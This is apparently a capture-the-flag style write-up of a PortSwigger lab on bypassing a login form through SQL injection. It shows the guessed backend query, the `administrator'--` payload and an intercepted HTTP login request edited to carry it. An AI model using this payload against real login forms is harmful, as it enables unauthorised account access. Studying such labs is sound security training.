


# Lab: SQL injection vulnerability allowing login bypass


## Lab Information

 This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 


## Frontend of Login Form




## Detecting SQLi 

- After I submitted `'` as password and `administrator` as user, the server responded with **Internal Server Error** indicating that its prone to SQLi attacks.


## Creating our Payload

- From the above results we can infer the server is probably sending and query like

```sql
SELECT * FROM some_table WHERE username='administrator' AND password='something';
```

- Based on our estimated query I created the below payload.
	- `'-- `
- The `'`  encapsulates the `administrator` single quotations and the `--` comments the remaining `'` which is present in the original query so the password checking section becomes part of the comment hence useless. This way we can bypass the authentication procedure.


## Steps to Reproduce

- Use Burpsuite to intercept the login request and enter the below credentials.
	-  **username =** `administrator` & **password =** `anything you want`

```http
POST /login HTTP/2

Host: 0a8600fd03189ba381395dbf00940021.web-security-academy.net

Cookie: session=Z3x6HtLZ5k6nXZsKo0K4xzRERhpTNy5z

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 75

Origin: https://0a8600fd03189ba381395dbf00940021.web-security-academy.net

Referer: https://0a8600fd03189ba381395dbf00940021.web-security-academy.net/login

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

Priority: u=0, i

Te: trailers


csrf=qbKFqXEAdSHyxSxHz3fCqvrtn4PCH9r9&username=administrator&password=12345
```


- After you receive the request modify the last line. It should look like `csrf=qbKFqXEAdSHyxSxHz3fCqvrtn4PCH9r9&username=administrator'--&password=12345`
- Forward the request after that.





